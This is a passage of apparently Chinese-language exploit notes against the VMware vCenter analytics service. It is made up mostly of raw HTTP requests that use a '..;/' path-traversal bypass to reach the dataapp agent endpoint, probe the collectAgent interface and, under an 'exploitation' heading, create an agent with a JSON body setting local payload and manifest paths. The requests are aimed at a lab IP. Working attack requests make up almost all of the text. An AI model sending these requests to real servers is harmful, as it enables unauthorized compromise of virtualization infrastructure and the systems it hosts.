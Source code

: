 ```plain
POST /analytics/ceip/sdk/..;/..;/..;/analytics/ph/api/dataapp/agent?_c=vSphere.vapi.6_7&_i=9D36C850-1612-4EC4-B8DD-50BA239A25BB HTTP/1.1
Host: 192.168.111.11
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Content-Length: 2
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Type: application/json
X-Deployment-Secret: secret
X-Plugin-Type: MoWtrXYtWo
Accept-Encoding: gzip, deflate
Connection: close
{}
```

返回 200，collectAgent 接口存在，每次请求需要修改 X-Plugin-Type

```plain
POST /analytics/ceip/sdk/..;/..;/..;/analytics/ph/api/dataapp/agent?action=collect&_c=vSphere.vapi.6_7&_i=9D36C850-1612-4EC4-B8DD-50BA239A25BB HTTP/1.1
Host: 192.168.111.11
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Content-Length: 2
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Type: application/json
X-Deployment-Secret: secret
X-Plugin-Type: MoWtrXYtWo
Accept-Encoding: gzip, deflate
Connection: close
{}
```

## 漏洞利用

createAgent  
每次请求修改 X-Plugin-Type

```plain
POST /analytics/ceip/sdk/..;/..;/..;/analytics/ph/api/dataapp/agent?_c=vSphere.vapi.6_7&_i=9D36C850-1612-4EC4-B8DD-50BA239A25BB HTTP/1.1
Host: 192.168.111.11
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/json
X-Deployment-Secret: secret
X-Plugin-Type: test
Content-Length: 354
{"manifestSpec": {"resourceId": "b1", "dataType": "b2", "objectId": "b3", "versionDataType": "b4", "versionObjectId": "b5"}, "objectType": "a1", "collectionTriggerDataNeeded": true, "deploymentDataNeeded": true, "resultNeeded": true, "signalCollectionCompleted": true, "localManifestPath": "a2", "localPayloadPath": "a3", "localObfuscationMapPath": "a4"}
```
